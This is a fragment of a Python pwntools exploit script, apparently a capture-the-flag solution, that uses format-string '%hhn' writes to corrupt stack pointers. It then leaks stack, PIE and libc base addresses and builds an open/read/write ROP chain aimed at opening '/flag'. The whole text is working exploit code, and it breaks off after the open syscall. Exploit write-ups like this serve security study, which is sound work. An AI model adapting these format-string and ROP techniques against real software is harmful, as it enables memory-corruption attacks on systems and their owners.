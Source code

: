 ```

pay = "%"+str(0x4c)+"c%6$hhn"
p.sendline(pay)


#rbp -&gt; _start

pay = "%"+str((stack-0x58)&amp;0xff)+"c%10$hhn"
p.sendline(pay)

pay = "%"+str((stack+0xc0)&amp;0xff)+"c%6$hhn"
p.sendline(pay)


#set ret addr1 and stack(rbp)

pay = "%"+str((stack-0x10)&amp;0xff)+"c%10$hhn"
p.sendline(pay)

pay = "%"+str(0x3c)+"c%6$hhn"
pay += "%"+str((stack-0x58-0x3c)&amp;0xff)+"c%10$hhn"
p.sendline(pay)

#set _fileno to 2
p.sendline("\x02")
p.send("\n")


#leak
p.recvuntil(" 0x")
stack = int(p.recv(12),16)
print "stack2 : " + hex(stack)
p.sendline("%7$p%13$p")

p.recvuntil("0x")
pie = int(p.recv(12),16) -0xf96
print "pie : " + hex(pie)

p.recvuntil("0x")
libc.address = int(p.recv(12),16) -0x20840
print "libc_base : " + hex(libc.address)



#orw rop chain
buf = pie+0x202040
pop_rsp_4 = pie + 0x000000000000104d
pop_rax = 0x000000000003a738 + libc.address
pop_rdi = 0x0000000000021112 + libc.address
pop_rdx = 0x0000000000001b92 + libc.address
pop_rsi = 0x00000000000202f8 + libc.address
syscall = 0x00000000000bc3f5 + libc.address

rop = ''
rop += p64(pop_rax)
rop += p64(2)
rop += p64(pop_rdi)
rop += p64(buf+0x100)
rop += p64(pop_rsi)
rop += p64(0)
rop += p64(pop_rdx)
rop += p64(0)
rop += p64(syscall)#open("/flag",0,0)
```
